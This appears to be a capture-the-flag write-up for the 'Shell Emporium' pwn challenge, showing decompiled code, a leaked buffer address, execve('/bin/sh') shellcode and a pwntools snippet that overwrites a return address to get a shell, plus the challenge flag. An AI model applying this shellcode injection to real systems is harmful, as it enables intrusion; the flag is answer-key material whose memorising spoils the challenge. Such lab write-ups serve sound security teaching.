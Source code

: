 # Shell Emporium

- **Category:** Pwn  
- **Points:** 180 (1 flag)

## Description
- You see seashells, I see shells.

## Flag
- **Flag 1:** 180 points

## Access
- **Netcat:** `nc chal.ctf-league.damsec.org 1318`
- **Download:** [shell_emporium](http://chal.ctf-league.osusec.org/pwn/shell_emporium/shell_emporium)

## Writeup

### First look
accessing the server shows us this:
```
DEBUG MESSAGE, PLEASE IGNORE: 0xff95147d
Welcome to Sally's Seashell Emporium!
Select a seashell from our sea source:
(1) Soft shell
(2) Smooth shell
(3) Strong shell
(4) Sure shell
```

the debug message looks to be interesting, but we will ignore it for now.

trying to break this program I noticed would happen if we enter a large enough number, but not much was gained from that.

### Disassembling the binary
taking a look at the binary and reverse engineering it

there were a few things of note here

in main, there is a variable that we get the address of, and that address is given to us right off the bat when we connect to the server, this is the debug message we saw earlier.

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
  undefined4 in_ECX;
  undefined local_10f [255];
  int local_10;
  undefined4 local_c;
  
  local_c = in_ECX;
  setbuf(_stdin,(char *)0x0);
  setbuf(_stdout,(char *)0x0);
  printf("DEBUG MESSAGE, PLEASE IGNORE: %p\n",local_10f);
  puts("Welcome to Sally\'s Seashell Emporium!");
  for (local_10 = 0; local_10 < 1; local_10 = local_10 + 1) {
    FUN_080491a2(local_10f + local_10 * 0xff,0xff);
  }
  FUN_080492ce();
  return 0;
}
```

this shows us that the varible is 255 bytes long

### trying to exploit the program

trying to get a foothold onto the system we take a look at just putting our own shellcode in the buffer and trying to execute it

this shellcode can be found on 'sol.py' but below is it copy and pasted

```
mov eax, 0xB
mov ebx, {addr1}
xor ecx, ecx
xor edx, edx
int 0x80
```

essentially what this does is prep the use of a terminal for us to use by pushing the value 0xB into eax, the address of our code into ebx, and then calling the interrupt 0x80 to execute the code

this now has to be put into the buffer, and sending it over to the server

but to actually get a shell we need to push the name of the program we want to run, which is '/bin/sh' 

to do this we then send over the string '/bin/shx00' and then the shellcode, which will get us fully prepped for a shell

then we need to actaully tell the server to execute our code, we accomplish this by sending the address of the buffer we just sent over

```python
p.send(b"/bin/sh\x00")
p.sendline(shellcode)
print(p.recv())
addr2 = p32(addr1+8)
p.sendline(20*addr2)
```

this address is the same as the one we got at the start of the program, but we add 8 to it to get the address of the shellcode

and then we just spam the address it in hopes of overwritting a return address

this resulted in us getting a shell and the flag

```
osu{5411y_p0p5_5345h3115_4_7h3_5345h0r3}
```



